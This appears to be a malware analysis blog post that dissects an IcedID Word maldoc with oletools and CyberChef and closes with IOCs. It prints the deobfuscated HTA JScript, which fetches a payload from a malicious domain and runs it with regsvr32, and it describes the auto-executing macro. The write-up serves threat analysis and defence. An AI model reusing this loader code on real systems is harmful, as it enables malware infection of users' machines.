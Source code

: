 IcedId Maldoc

Browsing through AnyRun, I found an interesting sample. 

https://app.any.run/tasks/3f121e8d-95d6-4c9f-90e2-bb57a4ddf697/
filename: ingresso.03.26.21.doc
md5: ff39fc0c398db11d51982220d6b7b45c
sha256: d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5

Let's take a look at it.

If you don't have a copy of Office available, it's still easy to analyze with [OleTools](https://github.com/decalage2/oletools) and [CyberChef](https://gchq.github.io/CyberChef/). 

I always like to look inside the doc for any images. This helps me understand the lures used. CyberChef has a recipe to "Extract Files". You can use this to easily preview images. In this case, the image alone makes this *highly suspicious*. This is the traditional "This document was created in an earlier version of Word" lure.  


![18cad07a4fe5e160b924fb4818e3380e.png](../_resources/d9526c32abc848b597e66e2615191886.png)


Malicious Word documents typically use one of three techniques to do evil:

1. Macros
2. Link to a URL containing the malicious payload
3. Exploit Word itself, usually [CVE–2017–11882](https://blog.morphisec.com/microsoft-equation-editor-backdoor) 

Running `olevba -a ingresso.03.26.21.doc` performs triage analysis on the macro and highlights suspicious items. 

![648a2336d5d74ff831b7b742e17dd3b8.png](../_resources/5f24a20247d84cf7948244b0d9b71c69.png)

There are several things that stand out here that will guide our analysis. The macro:

1. Auto-executes on open
2. Creates a file
3. Executes a shell command
4. Contains encoded/obfuscated strings

To make understanding the macro code easier, I prefer to dump it out to a text file (`olevba ingresso.03.26.21.doc > macro.txt`) and open it up in Notepad++. I love Notepad++ for the language specific syntax coloring, and that selecting text will highlight it elsewhere in the document. These two things help a lot when deobfuscating scripts. 

I take a once over for the full macro, then focus in on one component I find most interesting. If you don't know where to start, the shell command is always a solid choice. 



![6f9193d37b7041b3fb47c3b8ab145ed1.png](../_resources/c5cb9f692a3040908c3e1e3840d87c3d.png)



What we can see here is that a `wscript.shell` object is stored in a variable called `documentViewTitle`. The `exec` [function](https://www.vbsedit.com/html/5593b353-ef4b-4c99-8ae1-f963bac48929.asp) of this object is then called with the arguments pulled from `ptrMem` and `WExceptionLink`, after using the `Replace()` function to remove the 1s used to obfuscate the code. Looking at these variables, they seem to source from some form object contained in the document. If we use the `oledump` tool, we can see this object.


![9bd3219588cd7345cb28fb79958f8631.png](../_resources/249176739ae042389500f2e49ed828bf.png)

If we select the appropriate streams, we see the command `c:\windows\explorer.exe c:\users\public\main.hta` come to light.


![a6898a7ea7b51b7543256fd913b14ecb.png](../_resources/7a0d96156ed2434ab552b1bde522c5a9.png)

Thinking back to our triage of the sample, this HTA file is likely the file that's created by the macro. Zeroing in on that code...



![3ee7508bf8e27fbdf56648d082c01463.png](../_resources/9380db033d3f4293a99640d326b16b92.png)


We can look up the documentation for the `CreateTextFile` [method](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createtextfile-method) and it tells us that the argument will be the filename, so `borderBorderEx` eventually deobfuscates to `main.hta`, but `queryProc` will be the contents of the file, and much more interesting. 

If we use Notepad++ to select the function `textboxTable` we can find the places it is called in the code, and analyze the contents of the second argument. The second argument to `textboxTable` is the contents of the HTA file. 


![9d44f30bd645a83a3e00fe2c93ae6954.png](../_resources/df31519e7eb34efd912ef21db61b3f17.png)

Let's follow `argumentExceptionButton` and see what its contents are.


![2c6b410657946e6282c9d47e5720bf9d.png](../_resources/c6656556ce9a4d74a4be68d974711a42.png)

Essentially, it's this huge word wrap of other variables concatenated. The variables are defined above, so we can do a find and replace - replacing the variable names with their content. Once you've finished with the tedious work, you'll see the HTA file contents. 


![fd36f4d06a247a2ffb08803d348ce962.png](../_resources/3f87bc7ed60845919527a7df8469cbd2.png)

Once you clean up this code a little, getting rid of the extraneous `+` and `"` symbols, you'll see a long string in the `<div>` tag. One of the things that immediately stands out is the character set and that it ends with an equals sign. Without taking the time to understand any of the decoding algorithm underneath, I have a strong suspicion that it's base64 encoded. Let's test in CyberChef. 


![8a013579e2ded609a263c08262e9c7ae.png](../_resources/5720f3a32c1c478895a2b0398523255e.png)

It definitely decodes properly, but it looks weird. Applying the "Reverse" recipe will put the characters in the correct order, resulting in the following code that will be executed by the HTA file.

```
new ActiveXObject("wscript.shell").run("regsvr32 c:\\users\\public\\collectionMemory.jpg");
var buttonPasteLeft = new ActiveXObject("scripting.filesystemobject");
try {
    buttonPasteLeft.deletefile("c:\\users\\public\\main.hta");
} catch(nextTrust) {}

var listboxTableRequest = new ActiveXObject("msxml2.xmlhttp");
listboxTableRequest.open("GET", "http://brown-craft-2018.com/fdvdd/sAyRdZ1iUxUFSEiaXlMxv4sYlMVcPX/Oz6qD6um7u2XDeRs0hvyB6/fFfWhs1ayr1Sp4kiHky8LFM/4Cr408QvrXy5Q9LFbjdzVx/naw15?id=bgZ5DeL6cVNx69&id=h6", false);
listboxTableRequest.send();
if (listboxTableRequest.status == 200)  {
    var documentRight = new ActiveXObject("adodb.stream");
    documentRight.open;
    documentRight.type = 1;
    documentRight.write(listboxTableRequest.responsebody);
    documentRight.savetofile("c:\\users\\public\\collectionMemory.jpg", 2);
    documentRight.close;
}
```

This HTA file will retrieve the remote file named `collectionMemory.jpg` and attempt to execute it with `regsvr32`. Unfortunately, by the time Any.Run or myself were able to get to it, it seems like this file no longer exists.


![9ea24f09d0b510a34031a3a537fba29d.png](../_resources/c324949225cb49aaa82ebafcd05456fb.png)


However, @reecDeep on [Twitter](https://twitter.com/reecdeep/status/1375385369462575106) reported a ***similar*** sample from a few days prior and the follow on payload was uploaded to [tria.ge](https://tria.ge/210326-g3jcevvnd6).


IOCs

Type|Value
---|------
filename|ingresso.03.26.21.doc
filename|c:\users\public\collectionMemory.jpg
filename|c:\users\public\main.hta
md5|ff39fc0c398db11d51982220d6b7b45c
sha256|d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5
domain|brown-craft-2018[.]com 
ip|45.150.67[.]40 






